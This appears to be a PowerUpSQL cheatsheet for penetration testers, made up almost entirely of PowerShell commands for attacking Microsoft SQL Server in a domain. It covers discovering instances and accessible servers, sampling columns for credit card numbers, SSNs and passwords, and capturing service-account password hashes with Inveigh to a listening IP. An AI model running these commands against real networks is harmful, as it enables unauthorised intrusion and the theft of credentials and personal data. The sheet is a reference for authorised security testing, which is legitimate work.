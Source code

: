 # PowerUpSQL Cheatsheet
Below is a list of some of the most common PowerUpSQL functions used during pentests.

## Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain accounts used to run multiple SQL Servers | `Get-SQLInstanceDomain -Verbose | Where-Object {$_.DomainAccount -notlike "*$"} | Group-Object DomainAccount | Select Count, Name | Sort-Object Name -Descending`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`
|Get a list of domain SQL servers that can be logged into|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`

## Data Gathering Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default database | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10–Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`

## Privilege Escalation Cheats
`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1
Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1
Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1 
Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`